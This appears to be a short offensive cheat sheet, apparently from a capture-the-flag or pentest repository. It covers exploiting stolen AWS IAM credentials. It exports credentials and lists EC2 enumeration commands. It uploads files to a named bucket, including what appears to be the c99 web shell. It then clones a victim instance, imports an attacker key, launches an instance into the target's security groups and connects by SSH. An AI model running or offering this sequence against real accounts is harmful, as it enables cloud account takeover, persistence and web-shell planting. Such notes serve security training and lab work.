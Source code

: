 **Obtaining IAM Key allow you to create any instance, create Security group anything you could do whatever you want.there are several vector to obtain a valid IAM Key to laverage to compromise the entire dedicated network.**

```
export AWS_DEFAULT_REGION=us-east-1
export AWS_ACCESS_KEY_ID=XXX
export AWS_SECRET_ACCESS_KEY=XXX
export AWS_SESSION_TOKEN=XXXX
```
# Basic Enumeration
```
aws ec2 describe-regions --output table
aws ec2 describe-addresses
aws ec2 describe-instance-status
aws ec2 describe-key-pairs
aws ec2 describe-instance-types
aws ec2 describe-network-acls
aws ec2 describe-security-groups
aws ec2 describe-snapshots

```



```
aws s3 ls  s3://ctfbucket-374385855887
aws s3 cp file.txt s3://ctfbucket-374385855887/test.txt
aws s3 cp c99.txt s3://ctfbucket-374385855887/c99.txt
http://s3.amazonaws.com/ctfbucket-374385855887
```


```
aws ec2 describe-instances
aws ec2 describe-instances --instance-ids i-01dae4002316c79e6
aws ec2 create-image --instance-id i-01dae4002316c79e6 --name "XXXX" --description "XXXX"
aws ec2 import-key-pair --key-name "XXXX" --public-key-material file://aws.pub
aws ec2 run-instances --image-id ami-069f61c4801753ffc --security-group-ids "sg-a5b42392" "sg-0ed973a145df7fa29" "sg-07144a98dc383a311" --count 1 --instance-type t2.micro --key-name  --query "Instances[0].InstanceId"
aws ec2 run-instances --image-id ami-069f61c4801753ffc --security-group-ids "sg-a5b42392" "sg-0ed973a145df7fa29" "sg-07144a98dc383a311" --subnet-id subnet-7aefab74 --count 1 --instance-type t2.micro --key-name Deloitte --query "Instances[0].InstanceId"
aws ec2 describe-instances --instance-ids i-01dae4002316c79e6 --query "Reservations[0].Instances[0].PublicIpAddress"
ssh -i aws_terraform ubuntu@3.238.62.143
```
